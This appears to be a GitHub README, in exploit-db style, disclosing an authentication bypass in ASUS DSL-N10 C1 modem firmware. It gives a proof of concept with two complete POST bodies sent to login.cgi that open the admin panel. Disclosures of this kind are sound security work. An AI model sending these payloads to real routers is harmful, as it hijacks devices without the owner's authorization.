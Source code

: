 # ASUS DSL N10 Authentication-Bypass

## Title: ASUS-DSL N10 1.1.2.2_17 - Authentication Bypass
Author: AmnBAN team  
Date: 2018-08-06  
Vendor Homepage: https://www.asus.com/Networking/DSLN10_C1_with_5dBi_antenna/  
Sofrware version: 1.1.2.2_17  
CVE: N/A
 
## 1. Description:
In ASUS-DSL N10 C1 modem Firmware Version 1.1.2.2_17 there is login_authorization 
parameter in post data, that use for authorization access to admin panel, 
the data of this parameter is not fully random and you can use old data 
or data of another device to access admin panel.
 
## 2. Proof of Concept:
Browse http://< Your Modem IP >/login.cgi
 
**Send this post data:**  
group_id=&action_mode=&action_script=&action_wait=5&current_page=Main_Login.asp&next_page=%2Fcgi-bin%2FAdvanced_LAN_Content.asp&login_authorization=YWRtaW46MQ%3D%2D
 
**Or this post data:**    
group_id=&action_mode=&action_script=&action_wait=5&current_page=Main_Login.asp&next_page=%2Fcgi-bin%2FAdvanced_LAN_Content.asp&login_authorization=FWRtaW46MQ%3D5D

![Alt text](https://github.com/AmnBAN/ASUS-DSL-N10-Authentication-Bypass/raw/master/asus-dsl-n10-c1-admin-panel-authentication-bypass.gif)  
**Enjoy Admin panel**  

## links:
https://www.exploit-db.com/exploits/45201/

## TODO:
Develop [RouterSploit](https://github.com/threat9/routersploit)  module for this vulnerability.
